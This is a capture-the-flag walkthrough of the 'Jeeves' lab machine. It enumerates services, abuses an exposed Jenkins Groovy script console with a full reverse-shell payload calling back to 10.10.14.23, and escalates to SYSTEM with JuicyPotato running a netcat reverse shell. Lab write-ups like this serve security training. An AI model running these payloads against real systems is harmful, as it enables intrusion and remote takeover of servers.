










# Jeeves

## Service Enumeration

`nmapAutomator.sh -H 10.10.10.63 -t all`



### Port 80

A HTTP service runs on port 80. Entering an input in the search bar results in a server error, showing us some information about the versions of the services and OS it is running.



### Port 50000

Another web service, running Jetty, is on port 50000. Using the `directory-list-2.3-medium.txt` wordlist from dirbuster, we can perform subdirectory enumeration on the target.

`gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

This uncovers a `/askjeeves` directory.

By going to `http://10.10.10.63:50000/askjeeves/`, we find a Jenkins page.



## Exploitation

By going to `http://10.10.10.63:50000/askjeeves/script`, we can execute scripts on the Groovy script console.

```java
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

By changing first line in the script, we can execute arbitrary shell commands.



We can change the script to instead trigger a reverse shell.

Source: [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

```java
String host="10.10.14.23";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

On our Netcat listener, we obtain a reverse shell.



## Privilege Escalation

We can use WinPEAS to enumerate.



Very quickly, we see that the SeImpersonatePrivilege token is enabled. We can exploit this with JuicyPotato \([https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)\).

After transferring JuicyPotato.exe and Netcat, we can run the following command to get another shell:

`JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\nc.exe -e cmd.exe 10.10.14.23 443" -t *`



We have successfully obtained SYSTEM privileges.

We find a `hm.txt` in place of `root.txt`.



However, we can find that there is an additional data stream hidden in the file.





